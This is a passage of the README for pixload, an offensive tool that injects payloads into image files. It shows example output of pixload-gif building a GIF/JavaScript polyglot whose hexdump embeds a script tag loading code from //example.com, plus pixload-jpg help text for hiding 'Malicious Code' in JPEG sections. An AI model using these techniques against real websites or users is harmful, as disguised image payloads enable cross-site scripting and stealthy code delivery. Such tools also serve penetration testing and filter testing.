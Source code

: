 ##### Example

```sh
$ pixload-gif payload.gif
```

```
........ GIF Payload Creator/Injector .........
...............................................
... https://github.com/sighook/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.gif

[>] Injecting payload into payload.gif
[✔] Payload was injected successfully

payload.gif: GIF image data, version 87a, 10799 x 32

00000000  47 49 46 38 37 61 2f 2a  20 00 80 00 00 04 02 04  |GIF87a/* .......|
00000010  00 00 00 2c 00 00 00 00  20 00 20 00 00 02 1e 84  |...,.... . .....|
00000020  8f a9 cb ed 0f a3 9c b4  da 8b b3 de bc fb 0f 86  |................|
00000030  e2 48 96 e6 89 a6 ea ca  b6 ee 0b 9b 05 00 3b 2a  |.H............;*|
00000040  2f 3d 31 3b 3c 73 63 72  69 70 74 20 73 72 63 3d  |/=1;<script src=|
00000050  2f 2f 65 78 61 6d 70 6c  65 2e 63 6f 6d 3e 3c 2f  |//example.com></|
00000060  73 63 72 69 70 74 3e 3b                           |script>;|
00000068
```
See [pixload-gif(1)](https://github.com/sighook/pixload/blob/master/pixload-gif.1.pod)
manual page for more information.

### pixload-jpg

##### Help

```sh
$ pixload-jpg --help
```

```
Usage: pixload-jpg [OPTION]... FILE
Hide Payload/Malicious Code in JPEG images.

Mandatory arguments to long options are mandatory for short options too.
  -S, --section COM|DQT         set section for payload injection
  -P, --payload STRING          set payload for injection
  -v, --version                 print version and exit
  -h, --help                    print help and exit

If the output FILE already exists, then payload will be injected into this
existing file. Otherwise, the new one will be created.
```

##### Examples
